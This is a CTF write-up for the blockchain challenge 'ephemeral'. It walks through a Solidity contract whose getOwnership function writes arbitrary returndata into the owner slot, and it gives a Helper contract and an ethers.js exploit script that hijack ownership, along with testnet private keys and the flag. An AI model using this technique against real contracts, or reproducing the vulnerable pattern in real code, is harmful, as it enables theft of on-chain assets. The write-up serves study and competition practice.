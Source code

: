 ```yaml
---
title: ephemeral
categories: Miscellaneous
tags: Blockchain
completedDuringEvent: true
submitted: true
flags: ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
draft: false
---
```

## Scenario

> The Ethereum testnet are one of the great place to test out stuff. Try my new favorite testnet at https://ephemery.dev/.
>
> To get the flag, solve the challenge and paste your proof-of-work result into the remote interface below.
> 
> `nc 103.185.52.95 13378`

By thehxnz

## Solution

Generating the proof-of-work result from `pow.py`, the result is `734514167936362`. We can paste the result into the remote interface to get the server's response.

```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Creating setup contract...
Setup       : 0x2812007F73614B913fb314770BAe528f8B7fc912
Challenge   : 0x1944C4d052D1E6d4ae16654eff2ea9089b7587da
Your Address: 0x29AB03c3f9cFf0CE4188B0b5945745c3c1A39DEF
Private Key : 0x2f85c431ef33e2ac950661946ad27429ed711bd85edcd248157f351c0fffd445
RPC         : https://otter.bordel.wtf/erigon
```

So this will create a **Setup Contract** and a **Challenge Contract**. In the **Setup Contract** the `player` variable will be set to the address we provide, and will create a **Challenge Contract** with the `owner` variable, where the `owner` variable is set to `msg.sender` from the **Setup Contract**.

```
constructor() {
    owner = msg.sender;
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide.

```
function isSolved() external view returns (bool) {
    return IChallenge(challenge).owner() == player;
}
```

From the `transferOwnership` function we can see that we have to change the owner of the **Challenge Contract** to the `player` that we provide. However, we cannot change the `owner` of the **Challenge Contract** because it does not meet the condition` msg.sender == owner`. Where msg.sender is the player and `owner` is the **Setup Contract** that we provide.

```
function transferOwnership(address newOwner) external {
    require(msg.sender == owner, "Not owner");
    owner = newOwner;
}
```

From the `getOwnership` function we can see that check if the caller is a contract then `staticcall` the `account` and call the `gas`, then copy the data from the `returndata` to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
        
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the `fallback` function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
       
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the fallback function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}
```

To automate the process, we can create a script using `ethers.js` to interact with the **Challenge Contract** and the **Helper Contract**.

```js
const { ethers, JsonRpcProvider } = require("ethers");
const solc = require("solc");

const SETUP_ADDRESS = "0xBaD1Bf25A3EB1786a0105F429fA63014eA092ea0";
const CHALLENGE_ADDRESS = "0xCf28A080bc6EcAf35764B1e39a8577082B56707b";
const ADDRESS = "0x49F9cdFb00EfA58962Fe062D91B8cCeccEFE5D25";
const PRIVATE_KEY = "0xf17789631ebf2eb733017fa1b6df40ace37ec1e0c8e4742996917b3f37aef572";
const RPC_URL = "https://otter.bordel.wtf/erigon";

const setupABI = ["function isSolved() external view returns (bool)"];
const challengeABI = [
    "function transferOwnership(address newOwner) external",
    "function getOwnership(address account) external",
    "function owner() external view returns (address)",
];

async function compileHelper() {
    const helperSource = `pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}`;

    const input = {
        language: 'Solidity',
        sources: {
            'Helper.sol': {
                content: helperSource
            }
        },
        settings: {
            outputSelection: {
                '*': {
                    '*': ['*']
                }
            }
        }
    };

    const output = JSON.parse(solc.compile(JSON.stringify(input)));
    const compiledHelper = output.contracts["Helper.sol"]["Helper"];
    const helperAbi = compiledHelper.abi;
    const helperBytecode = compiledHelper.evm.bytecode.object;
    return [helperAbi, helperBytecode];
}

async function exploit() {
    const provider = new JsonRpcProvider(RPC_URL);
    const wallet = new ethers.Wallet(PRIVATE_KEY, provider);
    console.log("Connected as:", wallet.address);

    const setup = new ethers.Contract(SETUP_ADDRESS, setupABI, wallet);
    const challenge = new ethers.Contract(CHALLENGE_ADDRESS, challengeABI, wallet);

    console.log("Owner before exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());

    const [helperAbi, helperBytecode] = await compileHelper();

    console.log("Deploying Helper contract...");
    const helperFactory = new ethers.ContractFactory(helperAbi, helperBytecode, wallet);
    const helper = await helperFactory.deploy(wallet.address);
    const helperAddress = await helper.getAddress();
    await helper.waitForDeployment();
    console.log("Helper deployed at:", helperAddress);

    console.log("Calling getOwnership with helper address...");
    const tx = await challenge.getOwnership(helperAddress);
    await tx.wait();
    console.log("Transaction confirmed");

    /* console.log("Transferring ownership to wallet...");
    const tx2 = await challenge.transferOwnership(wallet.address);
    await tx2.wait();
    console.log("Ownership transferred to wallet"); */

    console.log("Owner after exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());
}

exploit();
```

After running the script, we can see that the `owner` of the **Challenge Contract** is changed to the `player` we provided. The `isSolved` function will return `true` if the `owner` of the **Challenge Contract** is the same as the `player` we provided.


```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Challenge solved!
ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
```